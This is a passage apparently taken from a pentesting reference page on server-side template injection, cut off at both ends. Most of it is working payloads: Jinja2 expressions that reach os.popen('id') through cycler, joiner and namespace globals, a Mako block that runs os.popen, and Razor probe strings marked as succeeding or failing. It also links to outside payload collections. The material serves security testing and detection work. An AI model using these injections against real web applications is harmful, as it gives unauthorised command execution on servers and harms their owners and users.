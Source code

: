 
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

**More details about how to abuse Jinja**:

[Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

Other payloads in [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python)

Mako (Python)

```
<%
import os
x=os.popen('id').read()
%>
${x}
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net)

Razor (.Net)

- `@(2+2) <= Success`
    
- `@() <= Success`
    
- `@("{{code}}") <= Success`
    
- `@ <=Success`
    
- `@{} <= ERROR!`
    
- `@{ <= ERRROR!`
    
- `@(1+2)`
    